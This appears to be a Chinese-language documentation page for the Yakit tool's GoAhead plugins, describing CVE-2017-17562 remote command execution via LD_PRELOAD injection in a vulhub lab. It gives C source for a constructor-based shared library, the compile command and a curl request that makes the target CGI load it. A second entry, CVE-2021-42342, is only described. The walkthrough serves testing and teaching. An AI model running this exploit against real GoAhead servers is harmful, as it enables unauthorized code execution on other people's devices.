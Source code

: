 ```yaml
---
sidebar_position: 29
---
```

# Goahead插件使用

## 1 CVE-2017-17562 远程命令执行漏洞

**插件id：**

Yakit正在努力编写~

**漏洞描述：**

可以指定LD_PRELOAD=/proc/self/fd/0，因为/proc/self/fd/0是标准输入，而在CGI程序中，POST数据流即为标准输入流。我们编译一个动态链接库，将其放在POST Body中，发送给http://target/cgi-bin/index?LD_PRELOAD=/proc/self/fd/0，CGI就会加载我们发送的动态链接库，造成远程命令执行漏洞。

**测试过程：**

启动vulhub靶场，访问http://your-ip:8080/cgi-bin/index即可查看到Hello页面，即为CGI执行的结果。
首先需要编译一个动态链接库，而且需要和目标架构相同。所以在实战中，如果对方是一个智能设备，你可能需要交叉编译。因为Vulhub运行在Linux x86_64的机器中，所以我们直接用Linux PC编译即可。动态链接库源码：

```go
#include <unistd.h>

static void before_main(void) __attribute__((constructor));

static void before_main(void)
{
    write(1, "vuln find!\n", 14);
}
```

![](/img/products/yakit/Goahead-1.png)

before_main函数将在程序执行前被调用。编译以上代码

```go
gcc -shared -fPIC ./payload.c -o payload.so
```

将payload.so作为post body发送

```go
curl -X POST --data-binary @payload.so "http://your-ip:8080/cgi-bin/index?LD_PRELOAD=/proc/self/fd/0" -i 
```

![](/img/products/yakit/Goahead-2.png)

可见，vuln find！已被成功输出，说明我们的动态链接库中的代码已被执行

## 2 CVE-2021-42342 环境变量注入

**插件id：**

Yakit正在努力编写~

**漏洞描述：**

这个漏洞是CVE-2017-17562漏洞补丁的绕过，攻击者可以利用该补丁没有考虑到的multipart表单控制目标服务器的环境变量，进而劫持LD_PRELOAD来执行任意代码。

**测试过程：**

暂无案例
